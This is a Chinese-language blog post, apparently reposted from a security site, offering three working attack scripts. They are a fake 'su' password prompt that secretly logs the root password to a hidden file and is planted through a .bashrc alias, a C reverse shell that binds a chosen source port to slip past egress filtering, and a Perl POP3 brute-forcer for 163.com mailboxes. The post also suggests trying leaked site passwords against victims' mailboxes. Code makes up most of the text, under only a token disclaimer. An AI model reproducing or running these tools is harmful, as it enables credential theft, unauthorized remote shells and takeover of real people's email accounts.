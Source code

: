 ```yaml
---
date: 2014/6/9 19:53:42 
layout: post
title: 学习渗透用的Python小脚本
thread: 1
categories: python
tags:  脚本 python 网络安全
---
```


#渗透用的Python小脚本
----

渗透的很多时候，找到的工具并不适用，自己码代码才是王道，下面三个程序都是渗透时在网络上找不到合适工具，自己辛苦开发的，短小使用，求欣赏，求好评。

###记录root密码小工具
root.py
	
	#!/usr/bin/python
	import os, sys, getpass, time
	 
	current_time = time.strftime("%Y-%m-%d %H:%M")
	logfile="/dev/shm/.su.log"              //密码获取后记录在这里
	#CentOS                
	#fail_str = "su: incorrect password"
	#Ubuntu             
	#fail_str = "su: Authentication failure"
	#For Linux Korea                    //centos,ubuntu,korea 切换root用户失败提示不一样
	fail_str = "su: incorrect password"
	try:
	    passwd = getpass.getpass(prompt='Password: ');
	    file=open(logfile,'a')
	    file.write("[%s]t%s"%(passwd, current_time))   //截取root密码
	    file.write('n')
	    file.close()
	except:
	    pass
	time.sleep(1)
	print fail_str                               //打印切换root失败提示

渗透linux拿到低权限并提权无果时，将这个程序传上去，再将一个低权限用户目录下的.bashrc添加一句alias su=’/usr/root.py’; 低权限用户su root 后 成功记录密码。密码记录路径请看脚本

###设置源端口反弹shell
渗透某个linux服务器，反连时目标端口为888不行，53，80还是不行，

Ping了下百度 可以ping通，

那真相只有一个

服务器变态的限制了只能某些提供已某些端口为源端口去连接外面

比如

只允许接收对80端口的访问数据包，并以80为源端口向外回复数据。

谷歌程序无果，自己查了相关api后写了个。

client-port.c
	#include <stdio.h>
	#include <sys/types.h>
	#include <sys/socket.h>
	#include <netinet/in.h>
	#include <netdb.h>
	void error(char *msg)
	{
	        perror(msg);
	        exit(0);
	}
	int main(int argc, char *argv[])
	{
	        int sockfd, portno, lportno,n;
	        struct sockaddr_in serv_addr;
	        struct sockaddr_in client_addr;
	        struct hostent *server;
	        char buffer[256];
	        if (argc < 3) {
	                fprintf(stderr,"usage %s hostname port LocalPortn", argv[0]);
	                exit(0);
	        }                          //三个参数，目标主机，目标主机端口，本地源端口
	        portno = atoi(argv[2]);
	        sockfd = socket(AF_INET, SOCK_STREAM, 0);
	        if (sockfd < 0)
	                error("ERROR opening socket");
	 
	 
	        bzero((char *) &client_addr, sizeof(client_addr));
	        lportno = atoi(argv[3]);
	        client_addr.sin_family = AF_INET;
	        client_addr.sin_addr.s_addr = INADDR_ANY;
	        client_addr.sin_port = htons(lportno);         //设置源端口
	        if (bind(sockfd, (struct sockaddr *) &client_addr,
	                                sizeof(client_addr)) < 0)
	                error("ERROR on binding");
	 
	        server = gethostbyname(argv[1]);
	        if (server == NULL) {
	                fprintf(stderr,"ERROR, no such host ");
	                exit(0);
	        }
	        bzero((char *) &serv_addr, sizeof(serv_addr));
	        serv_addr.sin_family = AF_INET;
	        bcopy((char *)server->h_addr,
	                        (char *)&serv_addr.sin_addr.s_addr,
	                        server->h_length);
	        serv_addr.sin_port = htons(portno);
	        if (connect(sockfd,&serv_addr,sizeof(serv_addr)) < 0)   //连接
	                error("ERROR connecting");
	 dup2(fd, 0);
	 dup2(fd, 1);
	 dup2(fd, 2);
	 execl("/bin/sh","sh -i", NULL);                        //执行shell
	 close(fd);
	}

用法:

	gcc client-port.c -o port
	chmod +x port
	./port  你的IP 你的监听端口 本地的源端口

如 ./port  http://www.91ri.org  80  80

成功反弹shell 提权成功

###邮箱爆破脚本

某个时候 需要爆破一批邮箱

Burp163.pl

	#!/usr/bin/perl
	use Net::POP3;
	$email="pop.163.com";          //设置pop服务器地址 qq为pop.qq.com
	$pop = Net::POP3->new($email)or die("ERROR: Unable to initiate. ");
	print $pop->banner();
	$pop->quit;
	$i=0;
	open(fp1,"user.txt");     
	@array1=<fp1>;
	open(fp2,"pass.txt");
	@array2=<fp2>;                     //从文件中获取邮箱用户名及密码
	foreach $a(@array1) {
	$u=substr($a,0,length($a)-1);
	$u=$u."@163.com";
	foreach $b(@array2) {
	$p=substr($b,0,length($b)-1);
	print "cracked with ".$u."-----".$p."n";
	$i=$i+1;
	$pop = Net::POP3->new($email)or die("ERROR: Unable to initiate. ");
	$m=$pop->login($u,$p);              //尝试登录邮箱
	if($m>0)
	{
	  print $u."------------".$p."----"."success"."n";
	  $pop->quit;
	}                                //成功登录
	else
	{
	  print $u."------------".$p."----"."failed"."n";
	  $pop->quit;                                     //登录失败
	}
	}
	}
	print $i;

用法 将要爆破的邮箱的pop服务器写入下面这一行 默认是163邮箱

	$email="pop.163.com";

再将去除掉@后面部分的邮箱地址比如lusiyu@163.com 去除后lusiyu存进去

同目录user.txt中吗，再将字典存进去pass.txt

你会说

这个有点鸡肋吧 万一邮箱的密码很复杂

呵呵

搞到了一个小站的数据，

用这个程序批量测试密码是否就是邮箱密码 呵呵

我啥都没说。

这三个程序仅供技术研究，如读者用于违法行为，本人概不负责。

--------------------
转载自:http://www.91ri.org/8680.html

如有侵权请联系我.


----------
end

2014/6/9 20:02:20 



